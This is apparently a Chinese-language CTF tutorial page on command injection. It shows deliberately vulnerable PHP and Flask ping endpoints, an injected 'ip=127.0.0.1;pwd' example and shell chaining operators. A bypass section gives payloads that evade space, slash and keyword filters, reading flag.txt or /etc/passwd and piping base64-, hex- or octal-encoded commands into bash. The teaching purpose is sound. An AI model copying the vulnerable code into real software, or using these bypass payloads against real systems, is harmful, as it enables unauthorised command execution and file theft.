 ```yaml
---
title: "命令注入" 
weight: 6
bookToc: true
---
```


## 漏洞代码

命令注入是由于对用户输入限制不足，导致改变了原有执行命令的语义，继而额外执行了多条命令，如下面的`ping`程序，原本设计是期待用户传入合法的ip参数，如`127.0.0.1`，程序返回`ping 127.0.0.1`的结果，但用户可以通过修改 ip 参数来注入恶意的命令

{{< tabs "命令注入-ping程序" >}}
{{< tab "php版本" >}}
```php
<?php
highlight_file(__FILE__);

// 获取用户输入的IP地址
$ip_address = $_GET['ip'];

// 构建ping命令
$command = "ping -c 4 " . $ip_address;

// 执行命令
$output = shell_exec($command);

// 显示结果
echo "<pre>$output</pre>";
?>
```
{{< /tab >}}
{{< tab "python版本" >}}
```python
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/ping', methods=['GET'])
def ping():
    # 获取用户输入的IP地址
    ip_address = request.args.get('ip')
    
    # 构建ping命令
    command = f"ping -c 4 {ip_address}"
    
    # 执行命令
    output = os.popen(command).read()
    
    # 返回结果
    return f"<pre>{output}</pre>"

if __name__ == '__main__':
    app.run(debug=True)
```
{{< /tab >}}
{{< /tabs >}}

如用户输入`?ip=127.0.0.1;pwd`可额外获取当前目录信息

![](/data/image/web-cmdinject.jpg)

ctf web题目中命令注入的主要目的是读取文件，常见的读取文件的命令有：
- `cat/tac`: 按顺序/逆序读取
- `more/less`: 按页读取，less支持backwards
- `head/tail`: 按头/尾读取
- `nl`: 添加行数
- `od -a`: 16进制显示文件
- `uniq`: 删除文件重复行，显示结果
- `sort`: 将文件排列之后显示
- `strings`: 查找可打印字符串
- `rev`: 文件内容反序
- `paste`: 合并文件
- `diff flag xxx`: 比较2个文件的内容差异
- `base64`: 对文件内容base64

## 常用符号

### 链接符
- `cmd1` && `cmd2`: 代表首先执行前者命令`cmd1`再执行后命令`cmd2`，但是前提条件是命令`cmd1`执行成功才会执行命令`cmd2`，在`cmd1`执行失败的情况下不会执行`cmd2`命令。所以又被称为短路运算符。
- `cmd1` || `cmd2`: 代表首先执行`cmd1`命令再执行`cmd2`命令，如果`cmd1`命令执行成功，就不会执行`cmd2`命令，相反，如果`cmd1`命令执行不成功，就会执行`cmd2`命令。（前面的命令执行失败，它后面的命令才被执行）
{{< hint info >}}
以上类似编程语言中的逻辑运算符；`cmd`命令执行成功的标志是`echo $?`返回`0`：
```bash
pwd               
/Users/zqq/Desktop/zqq/zqq1024

echo $?
0
```
{{< /hint >}}
- `cmd1` & `cmd2`：代表首先在后台执行命令`cmd1`，然后再立刻执行命令`cmd2`，如果`cmd1`执行失败，还是会继续执行命令`cmd2`。也就是说命令`cmd2`的执行不会受到命令`cmd1`的干扰。
- `cmd1` | `cmd2`：管道符号，代表首先执行命令`cmd1`，将命令`cmd1`命令输出作为`cmd2`命令的输入执行命令`cmd2`，如果`cmd1`执行失败，还是会继续执行命令`cmd2`。也就是说命令`cmd2`的执行不会受到命令`cmd1`的干扰。
- `cmd1` ; `cmd2`：这种格式会先执行`cmd1`，不管`cmd1`的执行结果如何（无论成功还是失败），接着会执行`cmd2`。这是一种串行执行命令的方式，常用于需要按特定顺序执行多个独立命令的场景。

### 其他符号
```
`` 反引号
backtick 用于执行命令并将命令的输出结果嵌入到另一个命令或上下文中，echo `pwd`
```
---

```
$()符号
$()是一种命令替换语法，用于执行命令并将其输出结果嵌入到另一个命令或上下文中，echo $(pwd)
```

---

```
括号()
(command1; command2)，它们会作为一个独立的子shhell进程执行
```

---

```
花括号{}
花括号中可以包含一个或多个值
echo {1..5} = echo 1 2 3 4 5
cp file{.txt,.bak} = cp file.txt file.bak
```

## 绕过

**过滤空格**：以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤
```bash
# ${IFS}
cat${IFS}flag.txt # Internal Field Separator, By default, the value of IFS includes space, tab, and newline.

# 重定向符
cat<flag.txt
cat<>flag.txt

# 花括号
{cat,flag.txt}

cat%09flag.txt # 需要php环境，php环境下web输入%09等效于空格，horizontal tab ，%0a LF %0d CR

# 空格转义
X=$'cat\x20flag.txt'&&$X # $'' 引用允许包含转义序列，如\n理解为换行符等
```

**过滤斜杠**：以cat xxx/flag.txt威力，斜杠会被过滤来规避文件路径的构造
```bash
# ${HOME:0:1} $HOME=/root 之类的
cat ${HOME:0:1}etc${HOME:0:1}passwd

# echo . | tr '!-0' '"-1' 本质为 . 替换为了 /
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd

```

**关键词黑名单**： 系统限制了一些命令如cat的执行，但是理论上黑名单限制是没法做到完全的
```bash
# shell变量拼接
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;

# base64 + 管道
`echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d`
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash

# 单双引号
c""at fl''ag.tx""t

# 反斜杠
c\at fl\a\g.tx\t

# $1
ca$1t fl$1ag.t$1xt

# 十六进制
echo 'cat flag.txt' | xxd
echo "0x63617420666c61672e7478740a" | xxd -r -p | bash

# 八进制绕过
echo "cat flag.txt" | od -An -t o1 | sed 's/ /\\/g'
`printf "\143\141\164\040\146\154\141\147\056\164\170\164\012"`

# 通配符
cat fl?g.txt # ?作为通配符时，它代表一个字符的位置，可以匹配任何单个字符(除了目录斜杠/)
cat fla?.txt
cat f[lc]ag.txt
cat fl**
```